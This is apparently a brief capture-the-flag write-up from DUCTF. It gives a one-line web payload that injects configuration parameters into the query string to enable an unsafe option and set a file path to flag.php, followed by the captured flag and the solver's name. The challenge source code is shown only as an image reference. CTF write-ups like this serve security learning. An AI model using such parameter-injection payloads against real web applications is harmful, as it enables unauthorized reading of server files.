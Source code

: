 ## Solution:
```
/?allow_unsafe=true&config[data_folder]=&config[path]=flag.php
```

Flag:  `DUCTF{h0w_d0_y0u_l1k3_y0ur_ph1lters?}`

Solved by: vicevirus
